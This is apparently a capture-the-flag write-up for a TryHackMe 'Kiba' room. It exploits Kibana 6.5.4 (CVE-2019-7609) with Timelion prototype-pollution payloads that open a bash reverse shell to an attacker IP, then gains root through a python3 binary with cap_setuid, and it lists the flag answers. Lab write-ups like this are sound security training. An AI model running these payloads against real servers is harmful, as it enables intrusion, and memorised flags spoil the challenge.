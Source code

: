 # Kiba

Laurent Chauvin | April 12, 2024

## Resources

[1] https://github.com/mpgn/CVE-2019-7609
[2] https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities

## Progress

```
export IP=10.10.84.14
```

1. What is the vulnerability that is specific to programming languages with prototype-based inheritance?

```
Prototype pollution
```

2. What is the version of visualization dashboard installed in the server?

Nmap scan:

```bash
nmap -sC -sV -oN nmap/initial 10.10.84.14

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 18:39 EDT
Nmap scan report for 10.10.84.14
Host is up (0.091s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.37 seconds
```

Let's check the website. Not much to see there.

The challenge being called `Kiba` I did a research on `kiba dashboard` and found `Kibana`. Then I looked for `kibana dashboard url` and found that you have to connect to it on port 5601, which I did, and landed on the `kibana` dashboard. Not sure why nmap didn't pick it up.

Going to the 'Management' tab, we can find the version: `6.5.4`

3. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

Let's search for exploits, they will lead us to the CVE. Searchsploit didn't return much:

```bash
searchsploit Kibana 

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Kibana 6.6.1 - CSV Injection                                                                                                                                                                              | windows/webapps/47971.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```

But a quick search on Google on 'Kibana 6.5.4 CVE' lead to [1].

4. Compromise the machine and locate user.txt

Let's get this payload. Going to `Timelion` tab in Kibana and using this payload (found in [1]):

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.6.31.49/12345 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

and listening on port 12345:

```bash
nc -lnvp 12345

listening on [any] 12345 ...
connect to [10.6.31.49] from (UNKNOWN) [10.10.108.152] 44442
bash: cannot set terminal process group (946): Inappropriate ioctl for device                                       
bash: no job control in this shell                                                                                  
To run a command as administrator (user "root"), use "sudo <command>".                                              
See "man sudo_root" for details.                                                                                    
                                                                                                                    
kiba@ubuntu:/home/kiba/kibana/bin$ whoami
kiba
```

then executing the payload on Kibana. I had quite issues with the first payload, it was most of the time not working, for some reason.

So I tried the second payload, and it worked right away, no need to load the `Canvas` tab:
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.6.31.49/12345 0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Let's get the flag then:

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ cat ../../user.txt

cat ../../user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```

Although this worked, I don't recommend this payloads. I had to try multiple times to get a shell, and it's not consistent. On top of that, loading `Timelion` and `Canvas` are terribly slow, and if I killed the shell by accident, the machine became unresponsive, or the exploit were not working anymore. It was just a pain. Instead I used `CVE-2019-7609-kibana-rce.py`. Much more stable and consistent, and doesn't freeze the VM.


5. Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

6. How would you recursively list all of these capabilities?

From [2], we can see a binary called `getcap`, so let's try `getcap -r /`

7. Escalate privileges and obtain root.txt

From [2], we can see a way to use `setcap` to get root privileges, so I would assume it would work:

```bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

#Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

Let's check first if there are not any already:

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null

/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

Hum, this line is interesting: `/home/kiba/.hackmeplease/python3 = cap_setuid+ep`. Could we spawn a shell from python ?

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash");'
     
whoami
root
cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```

Sweet !!!

Interestingly, it doesn't appear when doing a search for SUID files:

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ find / -user root -perm -u=s 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/bin/fusermount
```

Which is confirmed when looking at the python file:

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ ls -al ../../.hackmeplease

total 4356
drwxrwxr-x 2 kiba kiba    4096 Mar 31  2020 .
drwxr-xr-x 6 kiba kiba    4096 Mar 31  2020 ..
-rwxr-xr-x 1 root root 4452016 Mar 31  2020 python3
```

## To Go Further

Initially `python3` is not SUID, but it has the capability of changing the UID of a process (`cap_setuid+ep`), where `+ep` means you’re adding the capability (“-” would remove it) as Effective and Permitted.
When calling `os.setuid(0)` set the UID of the current process to 0 (i.e. root), and spawn a bash with the same UID.

## Flag

1. `Prototype pollution`

2. `6.5.4`

3. `CVE-2019-7609`

4. `THM{1s_easy_pwn3d_k1bana_w1th_rce}`

5. `None`

6. `getcap -r /`

7. `THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}`
